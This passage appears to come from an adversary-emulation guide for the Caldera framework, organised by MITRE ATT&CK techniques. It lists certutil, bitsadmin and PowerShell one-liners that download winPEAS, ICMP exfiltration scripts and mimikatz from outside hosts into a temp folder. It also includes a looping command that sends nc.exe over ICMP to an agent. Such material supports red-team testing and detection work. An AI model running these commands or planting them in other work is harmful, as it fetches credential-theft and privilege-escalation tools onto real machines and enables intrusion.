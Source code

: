     - Certutil [[`Command-and-control:T1105:Ingress Tool Transfer`](https://attack.mitre.org/techniques/T1105/)]
      ```cmd
      certutil.exe -urlcache -f https://github.com/carlospolop/PEASS-ng/raw/master/winPEAS/winPEASbat/winPEAS.bat %tmp%\caldera\downloads\winPEAS_certutil.bat
      certutil.exe -urlcache -f https://raw.githubusercontent.com/icyguider/ICMP-TransferTools/main/Invoke-IcmpDownload.ps1 %tmp%\caldera\downloads\Invoke-IcmpDownload_certutil.ps1
      certutil.exe -urlcache -f https://raw.githubusercontent.com/icyguider/ICMP-TransferTools/main/Invoke-IcmpUpload.ps1 %tmp%\caldera\downloads\Invoke-IcmpUpload_certutil.ps1
      certutil.exe -urlcache -f https://github.com/microsoft/etl2pcapng/releases/download/v1.10.0/etl2pcapng.exe %tmp%\caldera\downloads\etl2pcapng_certutil.exe
      certutil.exe -urlcache -f https://github.com/ParrotSec/mimikatz/raw/master/Win32/mimikatz.exe %tmp%\caldera\downloads\mimikatz_certutil.exe
      certutil.exe -urlcache -f https://gist.githubusercontent.com/hardw00t/302790bea71d8ff42aeb3d1e102007d1/raw/b78d3aee5d79a2db20f55e90e11100ed6293c18e/mimikatz.js %tmp%\caldera\downloads\mimikatzjs_certutil.exe
      ```
    
    - Bitsadmin [[`Command-and-control:T1105:Ingress Tool Transfer`](https://attack.mitre.org/techniques/T1105/)]
      ```cmd
      bitsadmin.exe /transfer downloadfileteste /download /priority normal https://github.com/carlospolop/PEASS-ng/raw/master/winPEAS/winPEASbat/winPEAS.bat %tmp%\caldera\downloads\winPEAS_bitsadmin.bat
      bitsadmin.exe /transfer downloadfileteste /download /priority normal https://raw.githubusercontent.com/icyguider/ICMP-TransferTools/main/Invoke-IcmpDownload.ps1 %tmp%\caldera\downloads\Invoke-IcmpDownload_bitsadmin.ps1
      bitsadmin.exe /transfer downloadfileteste /download /priority normal https://raw.githubusercontent.com/icyguider/ICMP-TransferTools/main/Invoke-IcmpUpload.ps1 %tmp%\caldera\downloads\Invoke-IcmpUpload_bitsadmin.ps1
      ```
  
  - `POWERSHELL`
    - IWR [[`Command-and-control:T1105:Ingress Tool Transfer`](https://attack.mitre.org/techniques/T1105/)]
    ```powershell
    iwr -useb https://github.com/carlospolop/PEASS-ng/raw/master/winPEAS/winPEASbat/winPEAS.bat -OutFile $env:TMP\caldera\downloads\winPEAS_iwr.bat
    iwr -useb https://raw.githubusercontent.com/icyguider/ICMP-TransferTools/main/Invoke-IcmpDownload.ps1 -OutFile $env:TMP\caldera\downloads\Invoke-IcmpDownload_iwr.ps1
    iwr -useb https://raw.githubusercontent.com/icyguider/ICMP-TransferTools/main/Invoke-IcmpUpload.ps1 -OutFile $env:TMP\caldera\downloads\Invoke-IcmpUpload_iwr.ps1
    iwr -useb https://github.com/microsoft/etl2pcapng/releases/download/v1.10.0/etl2pcapng.exe -OutFile $env:TMP\caldera\downloads\etl2pcapng_iwr.exe
    iwr -useb https://github.com/ParrotSec/mimikatz/raw/master/Win32/mimikatz.exe -OutFile $env:TMP\caldera\downloads\mimikatz_iwr.exe
    iwr -useb https://gist.githubusercontent.com/hardw00t/302790bea71d8ff42aeb3d1e102007d1/raw/b78d3aee5d79a2db20f55e90e11100ed6293c18e/mimikatz.js -OutFile $env:TMP\caldera\downloads\mimikatzjs_iwr.exe
    ```

    - Invoke-IcmpDownload [[`Command-and-control:T1095:Non-Application Layer Protocol`](https://attack.mitre.org/techniques/T1095/)]
      - Executar no servidor: 
        ```bash
        # https://github.com/icyguider/ICMP-TransferTools
        bash> cd ~/Downloads/tools/ICMP-TransferTools && while true;do sudo ./ICMP-SendFile.py 10.10.64.230 IP_DO_AGENT files/nc.exe;done
        ```
